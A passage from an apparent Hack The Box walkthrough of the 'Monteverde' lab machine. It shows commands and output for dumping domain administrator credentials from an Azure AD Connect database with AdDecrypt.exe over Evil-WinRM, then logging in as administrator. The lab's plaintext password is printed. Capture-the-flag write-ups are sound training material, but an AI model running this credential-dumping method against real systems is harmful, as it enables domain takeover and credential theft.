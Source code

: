 
2. Reading about Azure AD Sync it is the service responsible for syncing data between your local domain and the Azure based domain.
   The service needs privileged credentials from the local domain in order to sync, meaning this could potentially be exploited.

   Googling "Azure AD sync exploit" we find an article explaining how to Priv Esc using Azure AD Connect Database, and even has
   a compiled program to do it for you, see link below under 'Information'.

3. Download the program and upload the .exe and .dll to the vicitm host (C:\temp\AdDecrypt)
   In order for the program to work we need to 'stand' in the ADSync directory.

   *Evil-WinRM* PS C:\temp\AdDecrypt> dir

         Directory: C:\temp\AdDecrypt


     Mode                LastWriteTime         Length Name
     ----                -------------         ------ ----
     -a----        1/22/2020  12:29 AM          14848 AdDecrypt.exe
     -a----        1/22/2020  12:29 AM         334248 mcrypt.dll

   *Evil-WinRM* PS C:\temp\AdDecrypt> cd C:\"Program Files"\"Microsoft Azure AD Sync"\Bin
   *Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin>
   *Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\temp\AdDecrypt\AdDecrypt.exe -FullSQL

    ======================
    AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
    Based on original code from: https://github.com/fox-it/adconnectdump
    ======================

    Opening database connection...
    Executing SQL commands...
    Closing database connection...
    Decrypting XML...
    Parsing XML...
    Finished!

    DECRYPTED CREDENTIALS:
    Username: administrator
    Password: d0m@in4dminyeah!
    Domain: MEGABANK.LOCAL

   NOTE: If the program doesn't work, try to import the ADSync module and run it again. Import-Module ADSync
         Also, the .exe is polling SQL with "Server=LocalHost;Database=ADSync;Trusted_Connection=True;". Luckily this is the
         exact structure of the database on Monteverde box, in other circumstances we would need to re-compile the .exe.


4. Login with found admin credentials and grab root.txt

    root@p3:/opt/htb/machines/monteverde# evil-winrm -i monteverde.htb -u administrator -p d0m@in4dminyeah!
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
      megabank\administrator
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
      1290****************************

